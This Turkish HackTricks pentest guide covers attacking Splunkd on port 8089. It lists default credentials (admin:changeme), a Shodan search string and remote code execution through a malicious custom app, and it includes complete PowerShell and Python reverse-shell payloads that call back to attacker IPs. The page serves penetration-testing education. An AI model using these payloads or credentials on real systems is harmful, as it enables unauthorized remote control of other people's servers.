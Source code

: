 # 8089 - Splunkd'yi Pentest Etme

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## **Temel Bilgiler**

* Veri toplama, analiz ve görselleştirme için kullanılan bir günlük analitik aracı
* Güvenlik izleme ve iş analitiğinde yaygın olarak kullanılır
* Varsayılan portlar:
* Web sunucusu: 8000
* Splunkd servisi: 8089

### Zafiyet Vektörleri:

1. Ücretsiz Sürüm İstismarı

* Deneme sürümü 60 gün sonra otomatik olarak ücretsiz sürüme dönüşür
* Ücretsiz sürüm kimlik doğrulama eksikliği taşır
* Yönetilmediğinde potansiyel güvenlik riski
* Yöneticiler güvenlik etkilerini gözden kaçırabilir

2. Kimlik Bilgisi Zayıflıkları

* Eski sürümler: Varsayılan kimlik bilgileri `admin:changeme`
* Yeni sürümler: Kurulum sırasında ayarlanan kimlik bilgileri
* Zayıf şifre kullanma potansiyeli (örn., `admin`, `Welcome`, `Password123`)

3. Uzaktan Kod Çalıştırma Fırsatları

* Birden fazla kod çalıştırma yöntemi:
* Sunucu tarafı Django uygulamaları
* REST uç noktaları
* Scriptlenmiş girdiler
* Uyarı scriptleri
* Çoklu platform desteği (Windows/Linux)
* Scriptlenmiş girdiler çalıştırabilir:
* Bash scriptleri
* PowerShell scriptleri
* Batch scriptleri

Ana İstismar Potansiyeli:

* Hassas veri depolama
* Ücretsiz sürümde kimlik doğrulama eksikliği
* Potansiyel uzaktan kod çalıştırma için birden fazla vektör
* Sistem ihlali için scriptlenmiş girdilerin kullanılma olasılığı

### Shodan

* `Splunk build`

## RCE

### Özel Uygulama Oluşturma

Splunk, özel uygulama dağıtımı aracılığıyla uzaktan kod çalıştırma için sofistike bir yöntem sunar ve çapraz platform scriptleme yeteneklerinden yararlanır. Temel istismar tekniği, hem Windows hem de Linux sistemlerinde ters shell'ler çalıştırabilen kötü niyetli bir uygulama oluşturmaya dayanır.

Özel bir uygulama **Python, Batch, Bash veya PowerShell scriptleri** çalıştırabilir. Ayrıca, **Splunk Python ile birlikte gelir**, bu nedenle **Windows** sistemlerinde bile python kodu çalıştırabileceksiniz.

[**bu**](https://github.com/0xjpuff/reverse_shell_splunk) örneğini **`bin`** içeren [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) ve [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) için kullanabilirsiniz. Ya da kendi uygulamanızı oluşturabilirsiniz.

İstismar süreci, platformlar arasında tutarlı bir metodoloji izler:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Kritik yapılandırma dosyası `inputs.conf`, scripti şu şekilde etkinleştirir:

* `disabled = 0` ayarlamak
* 10 saniyelik bir yürütme aralığı yapılandırmak
* Scriptin kaynak türünü tanımlamak

Dağıtım basittir:

1. Kötü niyetli uygulama paketini oluşturun
2. Saldırı yapan makinede bir dinleyici (Netcat/socat) kurun
3. Uygulamayı Splunk arayüzü aracılığıyla yükleyin
4. Yükleme sırasında otomatik script yürütmesini tetikleyin

Örnek Windows PowerShell ters shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Örnek Linux Python ters kabuk:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Yetki Yükseltme

Aşağıdaki sayfada bu hizmetin nasıl kötüye kullanılabileceği, yetkilerin yükseltilmesi ve kalıcılığın sağlanması ile ilgili bir açıklama bulabilirsiniz:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

